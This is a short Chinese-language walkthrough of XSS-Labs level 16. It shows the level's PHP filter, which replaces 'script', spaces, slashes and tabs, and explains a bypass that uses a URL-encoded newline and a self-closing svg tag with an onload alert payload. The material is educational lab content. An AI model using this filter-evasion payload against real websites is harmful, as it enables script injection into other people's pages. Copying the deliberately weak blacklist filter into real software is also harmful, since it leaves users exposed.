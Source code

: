 ### 短标签绕过

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第十六关**

看一下源代码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level17.php?arg01=a&arg02=b"; 
}
</script>
<title>欢迎来到level16</title>
</head>
<body>
<h1 align=center>欢迎来到level16</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
<center><img src=level16.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str5)."</h3>";
?>
</body>
</html>
```

空格被实体化了，采用回车代替，URL 编码是 `%0A`

`/` 被过滤了，采用短标签绕过

```html
?keyword=<svg%0Aonload=alert(1)>
```

![](https://pic1.imgdb.cn/item/681486ca58cb8da5c8d6bc81.png)
